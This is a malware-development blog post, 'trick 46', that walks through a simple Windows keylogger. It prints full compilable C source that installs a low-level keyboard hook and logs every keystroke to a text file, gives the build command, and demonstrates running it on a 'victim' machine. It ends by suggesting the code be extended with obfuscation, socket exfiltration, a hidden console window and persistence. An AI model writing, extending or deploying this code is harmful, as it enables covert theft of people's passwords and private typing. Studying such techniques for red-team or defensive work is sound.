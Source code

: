 ```yaml
---
title:  "Malware development trick 46: simple Windows keylogger. Simple C example."
date:   2025-05-01 03:00:00 +0300
header:
  teaser: "/assets/images/153/2025-05-02_09-20.png"
categories:
  - malware
tags:
  - red team
  - windows
  - malware
  - keyboard
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!        

![malware](/assets/images/153/2025-05-02_09-20.png){:class="img-responsive"}    

This post is very simple but not less important. One of my students ask about another simple trick in malware development: keylogging logic.      

To my surprise, I haven't written an article on this topic here. Sometimes you just want something simple: press a key, log it to a file, move on. Let's break it down.     

### practical example

I will show a simple proof-of-concept (PoC) in pure C. This tiny C keylogger uses the `WH_KEYBOARD_LL` hook to monitor keystrokes and write them to a local text file. To intercept keystrokes globally, we use:     

```cpp
hook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, NULL, 0);
```

This sets a low-level keyboard hook. Our callback (`KeyboardProc`) is invoked every time a key is pressed.    

If `VK_ESCAPE` is pressed, we unhook and exit:    

```cpp
if (p->vkCode == VK_ESCAPE) {
  runThread = false;
  UnhookWindowsHookEx(hook);
  PostQuitMessage(0);
}
```

We need logic to save keystrokes to a file:    

```cpp
// open file in append mode and save key
FILE* fp = fopen("keylog.txt", "a+");
if (fp) {
  DWORD key = p->vkCode;
  fprintf(fp, "key pressed: %c\n", MapVirtualKeyA(key, MAPVK_VK_TO_CHAR));
  fclose(fp);
}
```

No socket exfiltration, just writing to disk. Old-school.

The standard message processing cycle usually looks like this:

```cpp
while (runThread && GetMessage(&msg, NULL, 0, 0)) {
  TranslateMessage(&msg);
  DispatchMessage(&msg);
}
```

Keyboard events are taken from the queue using the `GetMessage` function and redirected to the `DispatchMessage` procedure, which handles messages for the window that is currently focused, using the `DispatchMessage` function.  The input focus is a property that can be given to a window made by Windows or a program. As long as the window is focused on input, all keyboard messages from the system queue will get to the right function in this window. An app can move the focus from one input window to another, like when you use `Alt+Tab` to switch to a different app:     

```cpp
BOOL GetMessage(
  [out]          LPMSG lpMsg,
  [in, optional] HWND  hWnd,
  [in]           UINT  wMsgFilterMin,
  [in]           UINT  wMsgFilterMax
);

LRESULT DispatchMessage(
  [in] const MSG *lpMsg
);
```

Usually, the `TranslateMessage` function is called before the `DispatchMessage` function. This function takes the `WM_KEYDOWN`, `WM_KEYUP`, `WM_SYSKEYDOWN`, and `WM_SYSKEYUP` messages as a starting point to make the "symbolic" messages `WM_CHAR`, `WM_SYSCHAR`, `WM_DEADCHAR`, and `WM_SYSDEADCHAR`. It is important to note that the original keyboard messages are not removed from this queue; instead, these "symbolic" messages are added to it:     

```cpp
BOOL TranslateMessage(
  [in] const MSG *lpMsg
);
```

Final full source code of our keylogger looks like this (`hack.c`):     

```cpp
/*
 * hack.c
 * save keystrokes to file
 * author @cocomelonc
 * https://cocomelonc.github.io/malware/2025/05/01/malware-tricks-45.html
 */
#include <windows.h>
#include <stdio.h>
#include <stdbool.h>

HHOOK hook;
LPMSG msg;
bool runThread = true;

LRESULT CALLBACK KeyboardProc(int code, WPARAM wParam, LPARAM lParam) {
  if (code == HC_ACTION && wParam == WM_KEYDOWN) {
    KBDLLHOOKSTRUCT* p = (KBDLLHOOKSTRUCT*)lParam;

    if (p->vkCode == VK_ESCAPE) {
      runThread = false;
      UnhookWindowsHookEx(hook);
      printf("hooking disabled by esc key. meow =^..^=\n");
      PostQuitMessage(0);
      return 0;
    }

    // open file in append mode
    FILE* fp = fopen("keylog.txt", "a+");
    if (fp) {
      DWORD key = p->vkCode;
      fprintf(fp, "key pressed: %c\n", MapVirtualKeyA(key, MAPVK_VK_TO_CHAR));
      fclose(fp);
    }
  }
  return CallNextHookEx(hook, code, wParam, lParam);
}

// classic keylogger logic
int main(int argc, char* argv[]) {
  MSG msg;

  // install the hook - using the WH_KEYBOARD_LL action
  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, NULL, 0);
  if (hook == NULL) {
    printf("failed to install hook :(\n");
    return 1;
  }

  printf("hook installed. meow =^..^= press esc to stop :)\n");

  // message loop
  while (runThread && GetMessage(&msg, NULL, 0, 0)) {
    TranslateMessage(&msg);
    DispatchMessage(&msg);
  }

  return 0;
}
```

### demo

Let's go to see everything in action. Compile `hack.c`:    

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![malware](/assets/images/153/2025-05-02_09-14.png){:class="img-responsive"}    


Run `hack.exe` on the victim's Windows machine (`Windows 10 x64 22H2` in my case), type something, then press `ESC`. Check `keylog.txt` in the same directory:    

![malware](/assets/images/153/2025-05-02_09-18.png){:class="img-responsive"}    

![malware](../assets/images/153/2025-05-02_10-04.png){:class="img-responsive"}    

As you can see, everything is worked perfectly! =^..^=    

This is just the base. From here you could:

Obfuscate filenames    
Use sockets to send keystrokes remotely    
Hide the console window    
Make it [persistent](https://cocomelonc.github.io/tutorial/2022/04/26/malware-pers-2.html) (e.g. [registry](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) or [task scheduler](https://cocomelonc.github.io/persistence/2025/03/12/malware-pers-27.html))    

Stay tuned for more malware tricks! =^..^=

Several APT groups and cybercriminal organizations like [APT37](https://malpedia.caad.fkie.fraunhofer.de/actor/apt37), [Sandworm](https://malpedia.caad.fkie.fraunhofer.de/actor/sandworm) and malware like [MyDoom](https://malpedia.caad.fkie.fraunhofer.de/details/win.mydoom), [ROKRAT](https://attack.mitre.org/software/S0240/) or [NOKKI](https://attack.mitre.org/software/S0353/) have employed this trick.    

I hope this post is useful for malware researchers, C/C++ programmers, spreads awareness to the blue teamers of this interesting classic keylogging technique, and adds a weapon to the red teamers arsenal.      

[GetMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getmessage)    
[DispatchMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-dispatchmessage)    
[TranslateMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-translatemessage)     
[APT37](https://malpedia.caad.fkie.fraunhofer.de/actor/apt37)    
[Sandworm](https://malpedia.caad.fkie.fraunhofer.de/actor/sandworm)     
[MyDoom](https://malpedia.caad.fkie.fraunhofer.de/details/win.mydoom)     
[ROKRAT](https://attack.mitre.org/software/S0240/)     
[NOKKI](https://attack.mitre.org/software/S0353/)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2025-05-01-malware-trick-46)    

> This is a practical case for educational purposes only.

Thanks for your time happy hacking and good bye!         
*PS. All drawings and screenshots are mine*       
